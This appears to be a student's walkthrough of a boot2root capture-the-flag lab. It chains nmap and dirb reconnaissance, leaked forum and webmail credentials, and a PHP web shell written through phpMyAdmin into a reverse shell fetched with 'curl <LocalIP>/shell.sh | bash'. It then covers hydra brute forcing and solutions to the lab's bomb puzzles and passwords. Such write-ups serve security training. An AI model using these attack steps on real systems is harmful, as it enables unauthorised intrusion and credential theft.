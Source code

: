 ```ifconfig```
    *to get our IP*

```nmap -sn -T4 <Network>```
    *pings every IP address of the network*

```ping <TargetIP>```
    *to get more info on the IP found*
    ttl = 64 -> Linux

```nmap -sVC -p- -T4 <TargetIP>```
    *scans every possible port (65535)*
    21 ftp, 22 ssh, 80 http, 143 imap, 443 https, 993 ssl/imap
    couldn't do anything with ftp, http and ssh

```dirb https://<TargetIP>```
    *using a wordlist, sends requests to the server to find existing endpoints*
    found directories : forum, phpmyadmin and webmail

```https://<TargetIP>/forum```
    logs file -> found a password of unknown user -> next successful login by lmezard

```Connection in the forum as lmezard```
    In "Edit profile" : user email : laurie@borntosec.net

```https://<TargetIP>/webmail```
    Logged in as laurie@borntosec.net -> access to the user's mails -> in "DB Access", root:<passwd>

```https://<TargetIP>/phpmyadmin```
    Connection as root
    
```SELECT "<?php system($_GET['cmd']) ?>" INTO OUTFILE '/var/www/forum/templates_c/rce.php';```
    *allows remote code execution (RCE)*

```echo "<reverse shell>" > shell.sh```
    *reverse shell script to execute*

```nc -nlvp <reverse shell port>```
    *opening a listening port*

```python3 -m http.server 80```
    *hosts shell.sh on port 80*

```https://<TargetIP>/forum/templates_c/rce.php?cmd=curl <LocalIP>/shell.sh | bash```
    *executes our reverse shell*

```python -c 'import pty;pty.spawn("/bin/bash")'``` ; ```^Z``` ; ```stty -echo raw;fg``` 
    *upgrade our reverse shell*

```cat /home/LOOKATME/password```
    Found a password for lmezard

```su lmezard```
    Connection as lmezard

Solving "fun" to get laurie's password
    ```tar -xvf ./fun```
    ```cat ft_fun/* | grep printf | grep -v haha``` -> password is 12 chars long
    ```cat ft_fun/* | grep getme -A 3 | grep -v haha``` -> password ending in "wnage"
    ```cat ft_fun/* | grep return | grep -v haha``` -> the characters left to order are "eptharI"
    ```python3 laurie.py | awk '{print $5}' > laurie_passwd.txt``` -> generate every possible permutation with those characters
    ```hydra -l laurie -P ./laurie_passwd.txt <TargetIP> ssh -v``` -> try every hashed possible password thanks to hydra -> connection as laurie
    -> laurie:<sha256 of "Iheartpwnage">

/home/laurie/README gives us hints to defuse the bomb
We could understand the code by decompiling the binary

Every phase waits for a user input, if incorrect, the bomb explodes

Phase 1 : compares the input with the string "Public speaking is very easy." -> input : "Public speaking is very easy."
Phase 2 : takes 6 numbers as input, input[i + 1] = input[i] * (input[i] + 1), with 1 as input[0] -> input : "1 2 6 24 120 720"
Phase 3 : takes a combination of one number, one char and another number. 7 combinations work, but thanks to the hints, we can keep only 3 of them : "1 b 214 / 2 b 755 / 7 b 524" -> input : "1 b 214"
Phase 4 : one number expected, > 0. Brute forcing it, we got "9"
Phase 5 : receives a string, applies an algorithm on every character. The result should be equal to "giants". Testing every letter, we got -> input : "opekmq" (or opekma)
Phase 6 : receives 6 numbers. Each one should be between 0 and 6, and 2 consecutive numbers can't be equal. Knowing that, we could brute force the password -> input : "4 2 6 3 1 5"

Secret phase : can be accessed by adding "austinpowers" to the fourth input -> "9 austinpowers". Receives a number > 0 and <= 1001. By brute force (again) -> input : "1001"

```cat phases_passwords.txt | tr -d ' \n'; echo```
    *Joins the password of every level to get the ssh psswd for "thor"*
    -> Publicspeakingisveryeasy.126241207201b2149opekmq426315 
        -> doesn't work. After reading carefully the subject, we need to swap "3" and "1" on phase 6
        -> thor:<Publicspeakingisveryeasy.126241207201b2149opekmq426135>


/home/thor/README tells us to use the result of the challenge "turtle" as password for "zaz"

In "turtle" we find instructions in French seeming to describe a path. Drawing it on paper, we end up writting "SLASH"
We have to "digest" the password to use it, and thus apply md5 (message digest) on "SLASH"
    ```echo -n "SLASH" | md5sum```
    -> zaz:<646da671ca01bb5d84dbb5fb2238dc8e>


We now have to exploit /home/zaz/exploit_me, which is a simple binary containing the c function "strcpy"


TO FINISH